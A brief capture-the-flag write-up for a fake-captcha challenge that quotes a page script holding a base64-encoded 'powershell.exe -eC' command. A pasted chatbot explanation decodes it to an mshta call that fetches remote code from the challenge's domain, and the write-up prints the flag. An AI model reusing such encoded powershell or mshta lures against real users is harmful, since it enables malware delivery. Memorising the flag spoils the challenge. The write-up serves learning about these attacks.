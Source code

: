 Solution 
Inspect - elements - script - 

```jsx
const textToCopy = "powershell.exe -eC bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A";
```

Decoded the sending link to (USING GPT)

The string you provided appears to be **Base64 encoded**. Let's decode it step-by-step.

### Input:

```
bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A
```

### Decoded (UTF-16LE format — because of the alternating nulls):

```
mshta http://nonmaliciouscaptcha.metaproblems.com/MetaCTF{F4k3_c4pTch@s_ruN_m4lw4r3}
```

- `mshta**` stands for **Microsoft HTML Application Host**.

### In simple terms:

It is a Windows **built-in executable** (`mshta.exe`) used to run **HTML Applications (HTA files)**, which are HTML pages with the ability to execute **scripts (like VBScript or JavaScript)** with full system access — **similar to .exe files**.

---

### In cybersecurity or CTF context:

- `mshta` is often **used by malware** or **in Capture The Flag (CTF) challenges** to execute remote or local malicious scripts.

---

---

Slithering Security

![image.png](images/image%2010.png)
